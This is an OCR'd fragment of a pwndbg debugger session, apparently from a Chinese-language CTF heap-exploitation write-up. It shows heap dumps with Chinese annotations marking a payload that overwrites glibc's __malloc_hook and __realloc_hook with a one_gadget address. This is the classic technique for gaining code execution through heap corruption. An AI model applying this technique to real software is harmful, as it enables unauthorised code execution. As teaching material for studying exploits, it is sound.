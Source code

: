 ```python
Top chunk | PREV_INUSE
Addr: 0x5555557572b0
Size: 0x20d51

pwndbg> x/100gx 0x555555757000
0x555555757000:	0x0000000000000000	0x0000000000000061
0x555555757010:	0x6262626262626162	0x6262626262626262
0x555555757020:	0x6262626262626262	0x6262626262626262
0x555555757030:	0x6262626262626262	0x6262626262626262
0x555555757040:	0x6262626262626262	0x6262626262626262
0x555555757050:	0x6262626262626262	0xfff7a7b480000000
0x555555757060:	0x0000000000000000	0x00000000000001f1
0x555555757070:	0x00007ffff7dcfca0	0x00007ffff7dcfca0
.......(省略内容均为空)
0x555555757250:	0x00000000000001f0	0x0000000000000060
0x555555757260:	0x0000555555757010	0x000000000000000a
.......(省略内容均为空)
0x5555557572b0:	0x0000000000000000	0x0000000000020d51
.......(省略内容均为空)
0x555555757310:	0x0000000000000000	0x0000000000000000
pwndbg> x/16gx 0x555555756060
0x555555756060:	0x0000005000000000	0x0000000000000050
0x555555756070:	0x0000002000000050	0x0000000000000000
0x555555756080:	0x0000555555757260	0x0000555555757260
0x555555756090:	0x0000555555757260	0x0000555555757010
0x5555557560a0:	0x0000555555757010	0x00007ffff7dcfc1d
0x5555557560b0:	0x0000000000000000	0x0000000000000000
0x5555557560c0:	0x0000000000000000	0x0000000000000000
0x5555557560d0:	0x0000000000000000	0x0000000000000000
----------------------------------------------------------------------------
pwndbg> x/16gx 0x00007ffff7dcfc1d
0x7ffff7dcfc1d:	0x4343434343434343	0xfff7aee45c434343
    			#payload从这里写入
0x7ffff7dcfc2d <__realloc_hook+5>:	0xfff7a7cca800007f	0x000000000a00007f
0x7ffff7dcfc3d:	0x0000000000000000	0x0000000000000000
0x7ffff7dcfc4d <main_arena+13>:	0x0000000000000000	0x0000000000000000
0x7ffff7dcfc5d <main_arena+29>:	0x0000000000000000	0x0000000000000000
0x7ffff7dcfc6d <main_arena+45>:	0x0000000000000000	0x0000000000000000
0x7ffff7dcfc7d <main_arena+61>:	0x0000000000000000	0x0000000000000000
0x7ffff7dcfc8d <main_arena+77>:	0x0000000000000000	0x0000000000000000
----------------------------------------------------------------------------
换个视角来看一下：
pwndbg> x/16gx 0x00007ffff7dcfc10
0x7ffff7dcfc10 <_IO_wide_data_0+304>:	0x00007ffff7dcbd60	0x4343430000000000
    			
0x7ffff7dcfc20 <__memalign_hook>:	0x4343434343434343	0x00007ffff7aee45c
    													#__realloc_hook
        												#现被写入one_gadget
0x7ffff7dcfc30 <__malloc_hook>:	0x00007ffff7a7cca8	0x000000000000000a
    							#_malloc_hook
        						#现被写入__libc_realloc
0x7ffff7dcfc40 <main_arena>:	0x0000000000000000	0x0000000000000000
0x7ffff7dcfc50 <main_arena+16>:	0x0000000000000000	0x0000000000000000
0x7ffff7dcfc60 <main_arena+32>:	0x0000000000000000	0x0000000000000000
0x7ffff7dcfc70 <main_arena+48>:	0x0000000000000000	0x0000000000000000
0x7ffff7dcfc80 <main_arena+64>:	0x0000000000000000	0x0000000000000000
pwndbg> 
----------------------------------------------------------------------------
pwndbg> bin
tcachebins
0x20 [ 98]: 0x6262626262626262 ('bbbbbbbb')
0x30 [ 97]: 0xfff7a7b480000000
0x40 [ 98]: 0x0
```